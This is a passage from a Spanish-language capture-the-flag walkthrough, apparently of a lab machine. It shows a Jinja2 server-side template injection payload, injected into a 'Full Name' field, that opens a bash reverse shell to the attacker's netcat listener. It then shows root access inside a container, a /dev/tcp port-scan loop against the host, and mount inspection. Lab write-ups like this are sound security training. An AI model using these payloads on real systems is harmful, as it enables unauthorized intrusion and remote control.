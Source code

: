 {% raw %}
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
{% endraw %}

## Intrusión

Vamos a mandarnos una `reverse shell` a nuestro equipo para ganar acceso a la máquina víctima, para ello nos ponemos en escucha con `netcat` por el `puerto 9993`

```
# nc -nlvp 9993
```

`Inyectamos` este `payload` en el campo `Full Name`

{% raw %}
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >& /dev/tcp/10.10.16.35/9993 0>&1"').read() }}
```
{% endraw %}

`Ganamos acceso` a la máquina víctima como usuario `root`

```
# nc -nlvp 9993
listening on [any] 9993 ...
connect to [10.10.16.35] from (UNKNOWN) [10.129.183.190] 49396
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@3a453ab39d3d:/backend# whoami
whoami
root
```

## Privilege Escalation

Sin embargo nos encontramos dentro de un `contenedor`

```
root@3a453ab39d3d:/backend# hostname -i
hostname -i
172.19.0.2
```

Descubrimos los `puertos abiertos` de la máquina principal

```
root@3a453ab39d3d:/home# for i in {1..65535}; do (echo > /dev/tcp/172.19.0.1/$i) >/dev/null 2>&1 && echo $i is open; done
```

Vemos que `/home/agustus` es una `montura` de la máquina principal a la cual tenemos acceso

```
root@3a453ab39d3d:/home# mount
overlay on / type overlay (rw,relatime,lowerdir=/var/lib/docker/overlay2/l/BMOEKLXDA4EFIXZ4O4AP7LYEVQ:/var/lib/docker/overlay2/l/E365MWZN2IXKTIAKIBBWWUOADT:/var/lib/docker/overlay2/l/ZN44ERHF3TPZW7GPHTZDOBQAD5:/var/lib/docker/overlay2/l/BMI22QFRJIUAWSWNAECLQ35DQS:/var/lib/docker/overlay2/l/6KXJS2GP5OWZY2WMA64DMEN37D:/var/lib/docker/overlay2/l/FE6JM56VMBUSHKLHKZN4M7BBF7:/var/lib/docker/overlay2/l/MSWSF5XCNMHEUPP5YFFRZSUOOO:/var/lib/docker/overlay2/l/3VLCE4GRHDQSBFCRABM7ZL2II6:/var/lib/docker/overlay2/l/G4RUINBGG77H7HZT5VA3U3QNM3:/var/lib/docker/overlay2/l/3UIIMRKYCPEGS4LCPXEJLYRETY:/var/lib/docker/overlay2/l/U54SKFNVA3CXQLYRADDSJ7NRPN:/var/lib/docker/overlay2/l/UIMFGMQODUTR2562B2YJIOUNHL:/var/lib/docker/overlay2/l/HEPVGMWCYIV7JX7KCI6WZ4QYV5,upperdir=/var/lib/docker/overlay2/4bc2f5ca1b7adeaec264b5690fbc99dfe8c555f7bc8c9ac661cef6a99e859623/diff,workdir=/var/lib/docker/overlay2/4bc2f5ca1b7adeaec264b5690fbc99dfe8c555f7bc8c9ac661cef6a99e859623/work)
proc on /proc type proc (rw,nosuid,nodev,noexec,relatime)
tmpfs on /dev type tmpfs (rw,nosuid,size=65536k,mode=755)
```